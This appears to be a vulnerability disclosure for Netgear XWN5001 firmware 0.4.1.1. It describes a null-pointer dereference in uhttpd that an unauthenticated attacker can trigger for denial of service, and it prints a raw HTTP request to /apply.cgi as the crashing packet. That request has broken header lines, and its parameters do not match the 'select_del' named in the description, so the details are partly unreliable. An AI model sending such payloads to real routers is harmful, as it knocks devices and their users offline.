

# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a null-pointer-dereference vulnerability. When a specific network packet is sent to the uhttpd binary, the atoi operation crashes, resulting in a denial of service. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function at address 0x4399AC of the binary usr/sbin/uhttpd. The parameter select_del passed to atoi is the source of the issue.



## Send package
```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 595

plc_qos_port_select=10&hide2_policy=123123123&submit_flag=wlacl_del
```
